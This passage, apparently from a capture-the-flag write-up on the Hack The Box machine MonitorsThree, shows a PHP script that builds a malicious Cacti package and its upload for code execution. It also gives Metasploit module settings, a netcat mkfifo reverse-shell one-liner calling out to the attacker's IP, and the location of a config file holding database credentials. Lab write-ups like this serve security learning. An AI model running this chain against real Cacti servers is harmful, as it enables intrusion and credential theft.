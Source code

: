 ```PHP
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

After running the script we get `test.xml.gz`. In Cacti, we go to `Import/Export` > `Import Packages`. 

Then upload the malicious package and import it.

![cacti package import](/images/HTB-MonitorsThree/cacti_pkg_import.png)

We execute our payload by going to `http://cacti.monitorsthree.htb/cacti/resource/test.php` and receive a connection on our listener.

![manual exploit foothold](/images/HTB-MonitorsThree/foothold_manual.png)

### Automated Exploit

In Metasploit we can use the `multi/http/cacti_package_import_rce` to obtain a shell as `www-data`.

```
set password greencacti2001
set rhosts cacti.monitorsthree.htb
set lhost tun0
set lport PORT_NUMBER
```

![Metasploit exploit foothold](/images/HTB-MonitorsThree/foothold_cacti.png)

The shell is not interactive so we will get a new one.

![bad shell](/images/HTB-MonitorsThree/bad_shell.png)

Using a reverse shell command (`nc mkfifo`) from [revshells](https://www.revshells.com/), we gain a shell which we upgrade.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP PORT_NUMBER >/tmp/f
```

![better shell](/images/HTB-MonitorsThree/better_shell.png)

We know that we are dealing with the Cacti software, so we look for some config file. `config.php` is located at `/var/www/html/cacti/include/config.php`. 

![Cacti configuration file location](/images/HTB-MonitorsThree/cacti_config_file_location.png)

The file contains some database credentials.
